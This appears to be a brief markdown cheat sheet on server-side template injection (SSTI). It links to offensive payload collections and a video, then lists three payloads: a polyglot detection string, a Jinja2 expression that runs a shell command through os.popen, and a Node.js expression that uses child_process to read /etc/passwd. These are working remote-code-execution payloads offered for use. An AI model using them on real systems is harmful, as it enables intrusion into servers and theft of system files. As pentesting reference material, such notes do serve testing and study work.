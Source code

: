 # Server Side Template Injection(SSTI)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#constructing-a-server-side-template-injection-attack)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [PayLoads 2](https://github.com/payloadbox/ssti-payloads)
- [YouTube](https://www.youtube.com/watch?v=Ce6FGus9UYk&ab_channel=BePractical)

## Payloads:
- `${{<%[%'"}}%\.`
- `{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}`
- `{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}` nodeJS